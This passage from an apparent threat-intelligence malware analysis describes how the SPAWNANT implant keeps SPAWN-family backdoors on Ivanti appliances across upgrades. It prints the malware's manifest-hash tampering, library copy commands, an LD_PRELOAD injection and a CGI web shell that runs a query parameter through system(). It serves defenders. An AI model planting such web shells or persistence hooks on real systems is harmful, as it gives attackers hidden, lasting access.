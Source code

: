 ```
chdir("/tmp");
system("/bin/mkdir", "-p", "root/home");
system("/bin/tar", "-xzf", $tgz_path, "./root/home/VERSION");
system("/bin/cp -f ./root/home/VERSION /data/versions/reset/VERSION");
system("/bin/cp -f ./root/home/VERSION /home/VERSION");
```

The SHA256 hash of the `VERSION` file from the upgrade partition is recalculated and inserted into the ICT manifest.

```
system('sed -i \'s/$(grep /home/VERSION|grep 
-oE "[0-9a-f]{64}")/$(/home/bin/openssl dgst -sha256 
/home/VERSION)/g\' /home/etc/manifest/manifest');
```

#### Persistence Across Upgrades

SPAWNANT (`libupgrade.so`) is an ELF32 executable that installs three components from the [SPAWN family](https://cloud.google.com/blog/topics/threat-intelligence/ivanti-post-exploitation-lateral-movement):

1.  SPAWNMOLE tunneler (`libsocks5.so`)
    
2.  SPAWNSNAIL SSH backdoor (`libsshd.so`)
    
3.  SPAWNSLOTH log tampering utility (`.liblogblock.so`)
    

SPAWNANT and its supporting components can persist across system upgrades. It hijacks the execution flow of `dspkginstall`, a binary used during the system upgrade process, by exporting a malicious `snprintf` function containing the persistence mechanism.

Unlike the first method described in this blog post for system upgrade persistence, SPAWNANT does not block the upgrade process. It survives the upgrade process by ensuring itself and its components are migrated to the new upgrade partition (mounted on `/tmp/data/` during a legitimate system upgrade process).

```
cp /lib/libupgrade.so /tmp/data/root/lib
cp /home/lib/libsocks5.so /tmp/data/root/home/lib
cp /home/lib/libsshd.so /tmp/data/root/home/lib
```

SPAWNANT sets the `LD_PRELOAD` environment variable to itself (`libupgrade.so`) within `DSUpgrade.pm` on the upgrade partition. The modification tells the dynamic linker to load `libupgrade.so` and use SPAWNANT’s malicious exported `snprintf` function before other libraries.

```
ENV{“LD_PRELOAD”} = “libupgrade.so”
```

Next, SPAWNANT establishes an additional method of backdoor access by writing a web shell into `compcheckresult.cgi` on the upgrade partition. The web shell uses `system()` to execute the value passed to a hard-coded query parameter. The following provides the relevant excerpt of the inserted web shell.

```
if(CGI::param("<redacted>")) {
	print "Cache-Control: no-cache"; 
	print "Content-type: text/html"; 
	my $a=CGI::param("<redacted>"); 
	system("$a");
}
```
